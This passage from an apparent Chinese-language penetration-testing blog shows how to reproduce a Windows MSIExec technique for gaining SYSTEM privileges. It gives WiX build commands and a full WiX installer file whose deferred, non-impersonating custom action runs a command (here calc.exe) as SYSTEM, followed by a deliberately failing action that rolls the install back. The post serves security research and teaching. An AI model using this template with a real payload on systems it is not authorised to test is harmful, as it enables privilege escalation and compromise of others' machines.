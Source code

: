 vs2012直接编译存在bug，可将函数`snprintf`替换为`_snprintf`


## 0x03 利用MSIExec获得System权限
---

我曾在之前的文章[《渗透测试中的msiexec》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec/)介绍过利用Advanced Installer制作msi文件的方法，这里不再赘述

本节对XPN提到的方法做复现，使用wix3制作msi文件

wix3下载地址：

https://github.com/wixtoolset/wix3

msigen.wix的代码可参考如下地址：

https://gist.github.com/xpn/d1ef20dfd266053227d3e992ae84c64e

编译命令如下：

```
candle.exe msigen.wix
torch.exe msigen.wixobj
```

我对XPN的代码做了修改，将payload替换为执行calc.exe，细节上做了部分修改，代码如下：

```
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
  <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product 
Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
    <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
    <Media Id="1" />

    <Directory Id="TARGETDIR" Name="SourceDir">
      <Directory Id="ProgramFilesFolder">
        <Directory Id="INSTALLLOCATION" Name="Example">
          <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">     
          </Component>
        </Directory>
      </Directory>
    </Directory>

    <Feature Id="DefaultFeature" Level="1">
      <ComponentRef Id="ApplicationFiles"/>
    </Feature>

    <Property Id="cmdline">calc.exe
    </Property>

    <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" 
ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>

    <CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
      invalid vbs to fail install
    </CustomAction>

    <InstallExecuteSequence>
      <Custom Action="SystemShell" After="InstallInitialize"></Custom>
      <Custom Action="FailInstall" Before="InstallFiles"></Custom>
    </InstallExecuteSequence>

  </Product>
</Wix>

```
